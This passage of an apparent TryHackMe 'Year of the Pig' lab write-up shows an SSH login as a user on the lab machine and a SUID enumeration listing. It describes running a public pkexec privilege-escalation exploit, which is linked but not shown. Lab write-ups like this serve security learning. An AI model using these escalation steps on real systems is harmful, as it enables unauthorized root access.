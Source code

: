 ![Image](Pasted%20image%2020240327194123.png)
_password hash_

Lets Login Now ⏭️

![Image](Pasted%20image%2020240327194841.png)
_Dashboard Page_

### SSH Shell 🔽

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Year_of_the_Pig]
└─$ ssh marco@10.10.34.97                        
The authenticity of host '10.10.34.97 (10.10.34.97)' can not be established.
ED25519 key fingerprint is SHA256:NA6wxwks9yC9RRUsw12szoz+dTUjJXyA37m9dSsUCa8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.34.97' (ED25519) to the list of known hosts.
marco@10.10.34.97s password: 

	
	__   __                       __   _   _            ____  _       
	\ \ / /__  __ _ _ __    ___  / _| | |_| |__   ___  |  _ \(_) __ _ 
	 \ V / _ \/ _` | '__|  / _ \| |_  | __| '_ \ / _ \ | |_) | |/ _` |
	  | |  __/ (_| | |    | (_) |  _| | |_| | | |  __/ |  __/| | (_| |
	  |_|\___|\__,_|_|     \___/|_|    \__|_| |_|\___| |_|   |_|\__, |
	                                                            |___/ 


marco@year-of-the-pig:~$ whoami
marco
marco@year-of-the-pig:~$ id
uid=1000(marco) gid=1000(marco) groups=1000(marco),1002(web-developers)
marco@year-of-the-pig:~$ 
```
{: .nolineno}

Now I checked <mark style="background: #D2B3FFA6;">SUIDs</mark> and got <mark style="background: #FF5582A6;">pkexec</mark> as SUIDs permitted so I uploaded an exploit related to pkexec from [here](https://github.com/Almorabea/pkexec-exploit/tree/main) and ran it .

```bash
marco@year-of-the-pig:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/bin/mount
/bin/fusermount
/bin/ping
/bin/su
/bin/umount
marco@year-of-the-pig:~$ 
```